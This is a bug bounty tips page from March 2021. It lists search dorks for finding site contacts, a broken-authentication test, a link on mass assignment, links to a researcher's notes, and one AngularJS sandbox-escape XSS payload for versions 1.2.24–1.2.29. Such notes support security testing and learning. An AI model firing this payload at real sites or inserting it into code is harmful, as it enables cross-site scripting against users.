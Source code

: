 # Bug Bounty Tips - March 2021

# 📅 01-Mar-2021
## Find Contact details for any sites using this dorks
1. site:site.tld intext:"
@site
.tld"
2. site:site.tld "security" | "admin" | "contact"
3. site:site.tld security.txt
4. /hunter.io
5. check whois for registrar info

## Broken Authentication tip
1. Added user in dashboard made him admin 
2. Remove user and again add same user
**Note :**If user gets admin without promoting then its broken issue.

## Mass Assignment/Auto binding vulnerability
- https://itzone.com.vn/en/article/mass-assignment-vulnerability-and-prevention

![img](https://pbs.twimg.com/media/EvONSJtXUAIQ4Xm?format=jpg&name=small)

# 📅 02-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 60
- [XSLT Injection ](https://twitter.com/harshbothra_/status/1366413262410059777?s=20)

## AngularJS Client-Side Template Injection as XSS payload for 1.2.24-1.2.29
```js
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

# 📅 03-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 61
- [Bypassing AWS Policies](https://twitter.com/harshbothra_/status/1366738335218028545?s=20)
